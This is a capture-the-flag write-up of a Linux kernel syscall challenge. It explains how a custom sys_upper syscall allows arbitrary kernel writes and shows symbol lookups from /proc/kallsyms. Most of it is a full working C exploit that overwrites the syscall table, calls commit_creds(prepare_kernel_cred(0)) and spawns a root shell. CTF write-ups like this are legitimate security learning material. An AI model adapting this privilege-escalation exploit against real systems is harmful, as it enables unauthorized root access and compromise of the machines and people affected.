 # Rookiss syscall challenge writeup by agam ^_^

### In the given syscall.c code, we can see that they add a new syscall named sys_upper to the syscall_table. This syscall essentially converts any string of lowercase to uppercase.

```c
static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}
```
# INDEED? :D


### By inspecting the syscall code further, we can see that essentially, any user has read/write permissions in the kernel, indicated by a 0x20 offset ☠.
```c
asmlinkage long sys_upper(char *in, char* out) {
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i] >= 0x61 && in[i] <= 0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}
```

## On the host, we can see that the kernel module has already been loaded.
```bash
$ lsmod
m 663 0 - Live 0x7f000000 (PO)

$ cat /proc/kallsyms | grep sys_upper
7f000000 t sys_upper    [m]
```

## To gain privileges, we need to change the process privileges and commit them. This can be achieved with this line of code:
```c
commit_creds(prepare_kernel_cred(0))
```

### Where "prepare_kernel_cred" is a func that creates a struct which represents the credentials of a process in the kernel. By passing 0 as an argument, you're essentially asking the kernel to prepare credentials for root. This function allocates and initializes a cred structure with elevated privileges.
```c
struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
	const struct cred *old;
	struct cred *new;

    ...

	old = get_task_cred(daemon);

	*new = *old;
	new->non_rcu = 0;
	atomic_long_set(&new->usage, 1);
	get_uid(new->user); 
	get_user_ns(new->user_ns);
	get_group_info(new->group_info);

    ...
}
``` 

 And **"commit_creds"** is a function that is used to replace the credentials of the current process with the credentials provided as an argument. It effectively changes the process's security context. By passing the result of prepare_kernel_cred(0) as an argument to commit_creds(), you're replacing the current process's credentials with those of the root privileges.

## since there isn't kalsr, Let's check the addresses of those functions inside of /proc/kallsyms:
```bash
$ cat /proc/kallsyms | grep sys_call_table
    >>> 8000e348 T sys_call_table <<<
```
```bash
$ cat /proc/kallsyms | grep prepare_kernel_cred
    >>> 8003f924 T prepare_kernel_cred <<<
    80447f34 r __ksymtab_prepare_kernel_cred
    8044ff8c r __kstrtab_prepare_kernel_cred
```
```bash
$ cat /proc/kallsyms | grep creds
    8003f3d8 T override_creds
    8003f44c T prepare_creds
    8003f51c T revert_creds
    >>> 8003f56c T commit_creds <<<
```

# Let's make the exploit poc!
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>
#include <sys/syscall.h>

// 8000e348 T sys_call_table
#define SYS_CALL_TABLE       ((void**)0x8000e348) // 0x [80] [00] [e3] [48] -> 
#define COMMIT_CREDS         0x8003f56c // 0x [80] [03] [f5] [6c] -> "\x8c\xf5\x03\x80";
#define PERPARE_KERNEL_CREDS 0x8003f924 // 0x [80] [03] [f9] [24] -> "\x24\xf9\x03\x80";

#define SYS_UPPER            223


long get_root_privlleges_process(void* (*prepare)(void*), int (*commit)(void*) )
{
    return commit(prepare(NULL));
}

int main() 
{

    unsigned int** sct;
    sct = (unsigned int**)SYS_CALL_TABLE;
    printf("[+] get_root_privlleges_process func addr: %p\n", get_root_privlleges_process);

    // store pointer to get_root_privlleges_process
    uint8_t sys_root_ptr[sizeof(void*) + 1] = {0};
    *(void**)sys_root_ptr = (void*)get_root_privlleges_process;

    printf("[+] sys_root_ptr: %p\n", sys_root_ptr);
    printf("[+] sys_upper addr: %p\n", SYS_CALL_TABLE + SYS_UPPER); 

    // override SYS_UPPER syscall functionality to our get_root_privlleges_process func
    syscall(SYS_UPPER, sys_root_ptr, &sct[SYS_UPPER]);
    puts("changed sys_upper to sys_root_ptr :D");
    
    void *commit  = (void*)COMMIT_CREDS;
    void *prepare = (void*)PERPARE_KERNEL_CREDS;

    printf("[+] commit: %p\n[+] prepare: %p\n", commit, prepare);
    // call our new syscall with the memory address of commit and prepare
    syscall(SYS_UPPER, prepare, commit);

    //      goal
    // ----------------
    system("/bin/sh");

    return 0;
}
```
